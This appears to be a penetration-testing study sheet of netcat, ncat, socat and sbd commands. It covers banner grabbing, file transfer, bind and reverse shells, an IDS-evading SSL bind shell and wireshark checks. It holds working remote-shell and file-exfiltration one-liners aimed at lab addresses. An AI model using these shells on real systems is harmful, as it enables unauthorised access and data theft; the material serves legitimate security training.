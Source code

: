 # Essential Tools
## Netcat
### Banner Grabbing
#### Connect to port to interact with services
`nc -nv $IP $PORT`

* Check banner for application and version

##### SMTP:
`nc -nv <windows IP> 25`

##### POP3:
`nc -nv <windows IP> 110`

##### IMAP:
`nc -nv <windows IP> 143`

#### Netcat chat

On listening host:`nc -nlvp $PORT`

On connecting host:`nc -nv $IP $PORT`

Type some words, you will see it on listening host
* sent in plaintext

#### Transfer text/binary files
On listening host:`nc -nlvp $PORT > incoming.exe`

On connecting host:`nc -nv $IP $PORT < /PATH/TO/FILE`

* No feedback about file upload process
* To test, check file is working/complete

### Executing Remote Commands/Output redirection
#### Bind shell
* $Bob - Windows 
* $Alice - Kali - NATed IP

Bob: `nc -lvp 4444 -e cmd.exe`
* presents command prompt to whoever connects
* cmd shell is bound to port 4444

Alice: `nc -vn $BOB 4444`
* connects to Bob
* Presented with windows command prompt.

#### Reverse shell
* Needs Bob to connect to Alice

Bob:`nc -lvp 4444`

Alice: `nc -vn $BOB_IP 4444 -e /bin/bash`
* Bob can type linux commands and get Output
* Windows box can now control kali

## Ncat
* Netcat lacks both encryption and access limitations
* using Ncat helps avoid IDS
* modern day rewrite of Netcat

### Set up SSL bind shell

Bob: `ncat -lvp 4444 -e cmd.exe --allow $ALICE_IP --ssl`

Alice: `ncat -v $BOB_IP 4444 --ssl`
* should have a secure bind shell

To verify one, can use wireshark

#### nc Vs socat

nc <remote server's ip address> 80

socat - TCP4:<remote server's ip address>:80


sudo nc -lvp localhost 443

sudo socat TCP4-LISTEN:443 STDOUT

#### File Transfer

sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt

socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create


#### Socat Reverse Shell

socat -d -d TCP4-LISTEN:443 STDOUT

socat TCP4:10.11.0.22:443 EXEC:/bin/bash

#### Encrypted connection

we will use the openssl application to create a selfsigned
certificate using the following options:
• req: initiate a new certificate signing request
• -newkey: generate a new private key
• rsa:2048: use RSA encryption with a 2,048-bit key length.
• -nodes: store the private key without passphrase protection
• -keyout: save the key to a file
• -x509: output a self-signed certificate instead of a certificate request
• -days: set validity period in days
• -out: save the certificate to a file
Once we generate the key, we will cat the certificate and its private key into a file, which we will
eventually use to encrypt our bind shell.

openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt

cat bind_shell.key bind_shell.crt > bind_shell.pem

sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash


socat - OPENSSL:10.11.0.4:443,verify=0

### SBD

```
root@kali:~# sbd -l -p 4444 -e bash -v -n
listening on port 4444
root@kali:~# sbd 192.168.1.202 4444
id
uid=0(root) gid=0(root) groups=0(root)
```

## wireshark
### Checking for unencrypted bind shell

1. Choose interface
2. Set up filter that only captures port 4444
  * host $BOB_IP and tcp port 4444
3. Set up bind shell while Wireshark runs in background
4. Stop capture
5. "Follow TCP Stream"

You should be able to see the connection and various commands performed

### Checking for encrypted ncat ssl shell
1. Same setup as above

You should see the traffic is encrypted
